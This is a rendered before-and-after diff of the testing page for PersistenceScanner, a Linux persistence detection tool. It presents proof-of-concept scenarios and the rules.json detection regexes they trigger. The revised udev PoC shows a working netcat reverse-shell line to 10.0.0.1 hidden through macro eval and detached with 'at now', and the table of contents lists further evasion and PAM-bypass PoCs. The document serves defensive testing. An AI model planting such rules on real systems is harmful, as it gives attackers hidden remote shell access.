

Before and after one commit to JakubMalisz/PersistenceScanner, a Markdown page: TESTING.md, the part around one of its changes. Shown at 84% size. GitHub-like rendering; pictures changed too: assets/test-udev.png; blank space fills up the shorter version.

````diff
--- a/TESTING.md
+++ b/TESTING.md
@@ -1,22 +1,44 @@
 # PersistenceScanner - Proof of Concept (PoC)
 
-This document presents targeted Proof of Concept (PoC) test scenarios designed to validate **PersistenceScanner** against advanced evasion, obfuscation, and stealth persistence techniques. Every scenario maps directly to detection signatures in `rules.json`.
+> **⚠️ Safety & Testing Environment Disclaimer:** All Proof of Concept (PoC) artifacts and test payloads documented below were created and validated exclusively inside an **isolated Virtual Machine (VM)** environment. Do not deploy these configurations into active system directories (`/etc/udev/rules.d/`, `/etc/pam.d/`, `/etc/cron.d/`, etc.) on production or host machines.
+
+This document presents targeted Proof of Concept (PoC) test scenarios designed to validate **PersistenceScanner** against advanced evasion, obfuscation, and stealth persistence techniques. Every scenario maps directly to unique detection signatures in `rules.json`, organized by persistence vector.
 
 ---
 
-## PoC 1: Udev Macro Substitution Evasion
+## Table of Contents
+* [1. Udev Rules](#1-udev-rules)
+  * [PoC 1.1: Udev Macro Substitution Evasion & Process Tree Detachment](#poc-11-udev-macro-substitution-evasion--process-tree-detachment)
+  * [PoC 1.2: Udev Process Tree Detachment & Inline Python Reverse Shell](#poc-12-udev-process-tree-detachment--inline-python-reverse-shell)
+* [2. Systemd Services](#2-systemd-services)
+  * [PoC 2.1: Systemd Environment Injection & Encoded Evasion](#poc-21-systemd-environment-injection--encoded-evasion)
+* [3. Cron Jobs](#3-cron-jobs)
+  * [PoC 3.1: Cron String Reversal](#poc-31-cron-string-reversal)
+* [4. PAM Authentication](#4-pam-authentication)
+  * [PoC 4.1: PAM Authorization Bypass & Shared Memory Trigger](#poc-41-pam-authorization-bypass--shared-memory-trigger)
+* [5. MOTD & Shell Profile Scripts](#5-motd--shell-profile-scripts)
+  * [PoC 5.1: MOTD Dynamic Script Execution Persistence](#poc-51-motd-dynamic-script-execution-persistence)
+  * [PoC 5.2: Stealth Service Activation via Raw D-Bus Messaging](#poc-52-stealth-service-activation-via-raw-d-bus-messaging)
+  * [PoC 5.3: Hex-Encoded Payload & Anti-Forensics Defense Evasion](#poc-53-hex-encoded-payload--anti-forensics-defense-evasion)
 
-**Vector:** Attackers use Udev environment variables (`ENV{}`) and macro expansion (`$env{}`) combined with `eval` to hide reverse shell execution from simple string inspection.
+---
+
+## 1. Udev Rules
+
+### PoC 1.1: Udev Macro Substitution Evasion & Process Tree Detachment
+
+**Vector:** Attackers target a single deterministic boot-time device (`KERNEL=="rtc0"`, the hardware real-time clock initialized once per boot) and combine Udev environment variables (`ENV{}`) with macro expansion (`$env{}`) and `eval` to hide reverse shell execution from simple string inspection, piping the command into the `at` daemon to break parent-child process tree visibility and bypass the strict `systemd-udevd` execution timeout.
 
 **Simulated File:** `99-malicious.rules`
 
-```ini
-ACTION=="add", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'eval $env{CMD}'"
+```
+ACTION=="add", KERNEL=="rtc0", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'echo \"eval $env{CMD}\" | at now'"
 ```
 
 **Matched Indicators (`rules.json`):**
 * `\bnc\s+-e` — **CRITICAL** (*Reverse shell attempt using netcat with execution flag*)
-* `eval\\s+(\\$env|%E)\\{` — **MEDIUM** (*Udev macro substitution evasion attempt detected in extracted payload*)
+* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion attempt detected in extracted payload*)
+* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon to break process tree visibility*)
 
 **PoC Evidence:**
 
````
Also changed, not shown: other parts of TESTING.md (+88 -21 lines), assets/test-dbus.png (added), assets/test-motd.png, assets/test-printf.png (added), assets/test-udev2.png (added), 1 other file.
